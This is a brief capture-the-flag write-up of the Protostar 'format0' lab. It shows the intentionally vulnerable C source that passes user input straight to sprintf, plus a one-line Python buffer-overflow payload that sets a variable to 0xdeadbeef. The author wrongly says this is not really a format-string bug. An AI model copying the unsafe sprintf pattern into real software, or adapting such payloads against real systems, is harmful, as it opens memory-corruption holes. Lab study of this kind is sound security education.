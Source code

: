 ```yaml
---
layout: post
title: "protostar format00"
tags: [protostar]
comments: false
---
```


We are given a source code for this challenge.

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

I don't really think this is a format string vulnerability but it writes our argument in buffer without a specific size so we can overflow buffer with "\xef\xbe\xad\xde"

```
user@protostar:/opt/protostar/bin$ ./format0 `python -c 'print "A"*64+"\xef\xbe\xad\xde"'`
you have hit the target correctly :)
```

